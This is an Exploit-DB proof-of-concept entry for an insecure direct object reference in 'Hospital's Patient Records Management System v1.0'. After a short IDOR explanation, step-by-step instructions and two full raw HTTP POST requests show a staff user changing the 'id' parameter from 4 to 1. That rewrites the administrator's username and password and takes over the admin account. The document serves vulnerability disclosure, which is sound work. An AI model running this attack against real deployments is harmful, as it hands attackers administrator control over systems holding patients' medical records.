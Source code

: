 # Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
Original link: https://www.exploit-db.com/exploits/50631
```bash
# Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
# Date: 2021-12-30
# Exploit Author: twseptian
# Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
# Version: v1.0
# Tested on: Kali Linux 2021.4
```

## Insecure direct object references (IDOR)
Insecure Direct Object References (IDOR) occur when an application provides direct access to objects based on user-supplied input.Insecure Direct Object References allow attackers to bypass authorization and access resources directly by modifying the value of a parameter used to directly point to an object. Such resources can be database entries belonging to other users, files in the system.

## Attack Vector
An attacker can takeover the Administrator's account

## Steps of reproduce:
Note: in this case, we used two users, user1 as a staff with user id '4', and admin as an Administrator with user id '1'.

Step-1: Log in to the application using user1 account,then on the dashboard navigate to 'My Account'

http://localhost/hprms/admin/?page=user

Step-2: Modify the username,lastname and password,then let's intercept the request using burpsuite:
```html
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

4
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```
Step-3: Change parameter id '4' to id '1'
```html
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```
step-4: Click 'Forward' on burpsuite. Now user1 is a Administrator.
